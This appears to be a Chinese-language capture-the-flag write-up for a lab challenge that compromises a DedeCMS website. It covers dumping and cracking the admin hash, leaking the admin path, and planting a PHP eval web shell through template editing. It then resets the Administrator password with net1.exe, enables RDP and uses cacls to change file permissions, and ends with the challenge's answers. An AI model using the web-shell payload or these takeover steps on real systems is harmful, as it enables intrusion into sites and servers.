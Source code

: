 
<h3 style="color: red;">1、管理员密码</h3>


<!-- 
常规思路:

界面一看就是`demdecms`,查看版本为`20130715`,可以参考乌云案例拿webshell

- [DedeCMS全版本通杀SQL注入(无任何限制)](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-051889)
- [DedeCMS全版本通杀SQL注入(真正的无任何限制附官方测试结果)](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-051950)

只是再加一条思路,由于不能复制粘贴就不作死手敲代码注入了,
-->

根据左侧提示下载 `dedecms` 漏洞利用工具

![](images/1.jpg)

爆出用户 `ichunqiu`:`adab29e084ff095ce3eb`

解md5得到密码: `only_system`

![](images/2.jpg)
![](images/3.jpg)

---

<h3 style="color: red;">2、找出后台</h3>

御剑没有扫描出后台地址

参考[织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html) 给出的爆后台路径方法

`/data/mysql_error_trace.inc`不存在,再试`/data/mysqli_error_trace.inc`(数据库出错信息),爆出后台地址为`/lichunqiul`

更早的版本可以参考[织梦dedecms管理系统后台查找技巧](http://www.qxzxp.com/295.html),大部分被修复了

![](images/4.jpg)

--- 

<h3 style="color: red;">3、Getshell</h3>

进入后台`www.test.ichunqiu/lichunqiul`

尝试上传文件getshell,可以看到文件管理器被删了,也不能上网下载上传一个,这不科学Orz
![](images/5.jpg)

参考: [织梦最新后台拿shell](http://tieba.baidu.com/p/4257910205) 以及 [DEDECMS后台另类拿Shell方法](http://www.vfocus.net/art/20100728/7501.html) ,通过修改模板的方法getshell


(1) `系统` --> `系统基本参数` --> `其他选项` --> 删除`禁用函数`与`禁用标签`

![](images/6.jpg)

(2) `生成` -->` 更新系统主页`--> `选择动态浏览` --> `更新主页HTML`

![](images/7.jpg)

(3) `模板`--> 默认模板 --> index.htm --> 编辑
添加

```
{dede:php}
@eval($POST["pwd"])
{/dede:php}
```

![](images/8.jpg)

(4) 上菜刀

![](images/9.jpg)

---

<h3 style="color: red;">4、查看桌面上的 flag</h3>

似乎做了某些限制不能直接访问,`net user`也没权限,MMP system 不是最高权限吗?！！！

![](images/10.jpg)

根据左侧提示上传一个`net.exe`同样没用,换成与`net.exe`作用相同的`net1.exe`有用,

改Administrator密码,开3389,燃鹅,所有账号没有远程登录的权限

![](images/11.jpg)

Google一下,似乎没那么容易通过命令行将用户添加到远程登录组里面:[解决“要登录到这台远程计算机,你必须被授予“的远程无法登陆问题](http://blog.csdn.net/zoomla188/article/details/70673822)

看看能不能改改权限`flag~ichunqiu.txt的权限`, 尝试搜索一下`windows是否有像Linux chmod一样的命令`


发现 [Windows下使用cacls命令修改文件权限设置方法](http://www.360doc.com/content/15/0116/10/3200886_441232359.shtml)以及[Cacls命令详解](http://blog.51cto.com/lucklong/384732)

参考cacls使用修改`flag~ichunqiu.txt`的访问权限

```
cacls flag~ichunqiu.txt                        # 查看访问控制权限
cacls flag~ichunqiu.txt /t /e /c /g system:F   # 修改system的权限为完全控制
type  flag~ichunqiu.txt                        # 再次查看flag~ichunqiu.txt文件

"/t"表示修改文件夹及子文件夹中所有文件的ACL.
"/e"表示仅做编辑工作而不替换.
"/c"表示在出现拒绝访问错误时继续.
"/g ruery:F"表示给予本地用户ruery以完全控制的权限.
"f"代表完全控制，如果只是希望给予读取权限，那么应当是"r"
```
![](images/12.jpg)

经过仔细辨认途中`1`和`l`的区别,`flag`文件内容应该为`key{il2o3l}`

然鹅,好像哪里不对,WTF

![](images/14.jpg)

将第三题答案改为`il2o3l`

![](images/13.jpg)

---

<h3 style="color: red;">5、所以答案是</h3>

```
网站管理员密码是多少？: only_system
网站后台目录名是什么？: lichunqiul
管理员桌面中flag文件信息是____。: il2o3l
```